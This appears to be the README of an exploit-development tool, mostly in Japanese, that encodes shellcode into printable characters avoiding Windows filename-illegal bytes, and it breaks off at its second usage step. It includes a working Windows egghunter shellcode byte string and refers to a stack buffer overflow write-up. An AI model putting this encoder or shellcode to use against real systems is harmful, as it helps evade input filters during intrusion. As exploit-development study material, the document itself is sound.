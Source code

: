 # encoder-shellcode-alpha.py
## About
egghunterなどをalphaのみ(`0x21~0x7f`付近のprint可能な文字)にEncodeするカスタムエンコーダ。   
なお、Windowsでは以下の文字列はファイル名に含めることができないため、これらの文字を使わないようにもした。   
```txt
*  2a
,  2c
/  2f
:  3a
;  3b
<  3c
>  3e
?  3f
\  5c
|  7c
```
この手法の考え方については以下を参照。   
https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/   
## How to use
### step1
以下のようにしてEncodeしたいShellcodeをセットする。   
ここでは`egghunter`変数にセットした。   
```python
import struct

################# User code begin ###################################################################
# You should edit only this section

egghunter = "\x31\xd2\x90\x90\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8"
egghunter += "w00t" # this is the marker/tag: w00t
egghunter += "\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"

# Make sure that finally using variable "shellcode"
shellcode = egghunter
################# User code end #####################################################################
```
### step2
